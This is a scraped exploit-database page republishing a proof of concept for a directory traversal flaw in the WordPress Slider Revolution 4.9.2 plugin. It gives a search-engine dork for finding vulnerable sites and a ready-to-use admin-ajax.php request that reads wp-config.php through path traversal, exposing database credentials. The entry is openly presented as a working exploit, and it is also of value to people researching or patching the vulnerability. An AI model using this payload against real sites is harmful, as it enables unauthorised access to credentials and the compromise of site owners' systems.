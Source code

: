 ```yaml
---
title: WordPress Slider Revolution 4.9.2 Directory Traversal exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170506&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-14
fetch_date: 2025-10-04T03:49:51.071328
---
```


# WordPress Slider Revolution 4.9.2 Directory Traversal exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Slider Revolution 4.9.2 Directory Traversal

2023-01-13 | CVSS -0.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170506
====================================================================================================================================
| # Title : WordPress - Slider Revolution 4.9.2 Directory Traversal Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 66.0(64-bit) |
| # Vendor : https://www.sliderrevolution.com/ |
| # Dork : index of revslider\backup |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : /wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php

[+] http://127.0.0.1/comunicacioninternacomuy/sitio/wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php

Greetings to :=========================================================================================================================
|
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm * thelastvvv *Zigoo.eg |
|
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)